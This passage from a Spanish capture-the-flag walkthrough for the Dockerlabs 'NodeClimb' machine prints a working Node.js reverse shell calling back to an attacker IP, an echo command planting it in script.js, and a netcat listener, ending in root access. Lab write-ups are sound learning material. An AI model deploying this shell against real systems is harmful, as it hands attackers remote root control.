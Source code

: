 ```
(function(){     var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("sh", []);
var client = new net.Socket();
client.connect(1111, "10.0.2.15", function(){         
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
    });
    return /a/; 
    })();'
```

Debemos insertar este script reverso de node, dentro del archivo script.js. Antes de hacer esto, debemos configurar una ip y puerto dentro del algoritmo generado. Todo esto lo podemos realizar de la siguiente manera dentro de la terminal (recordar que la IP y puerto, son de la máquina atacante):

```
echo '(function(){     var net = require("net"),         cp = require("child_process"),         sh = cp.spawn("sh", []);     var client = new net.Socket();     client.connect(1111, "10.0.2.15", function(){         client.pipe(sh.stdin);         sh.stdout.pipe(client);         sh.stderr.pipe(client);     });     return /a/; })();' > script.js

```

Hecho lo anterior, aún no basta para que funcione el algoritmo reverso, debemos volver a nuestra máquina kali y dejar un puerto a la escucha de lo enviado por el script reverso. Basta con usar el siguiente comando:

```
sudo nc -lnvp 1111
```
Podemos ver que al ajecutarlo, queda a la espera de comunicación.

![Captura de pantalla maquina contenido del directorio BIN/node - Dockerlab](images/Image_step_08.png)

Ahora ejecutamos el algoritmo dentro de la máquina NodeClimb, y quedamos a la espera de la comunicación dentro de la máquina atacnate.

![Captura de pantalla maquina contenido del directorio BIN/node - Dockerlab](images/Image_step_09.png)

Si todo resulta bien, debemos poder llegar a la máquina NodeClimb con el usuario root.

![Captura de pantalla maquina contenido del directorio BIN/node - Dockerlab](images/Image_step_10.png)

Gracias por leer.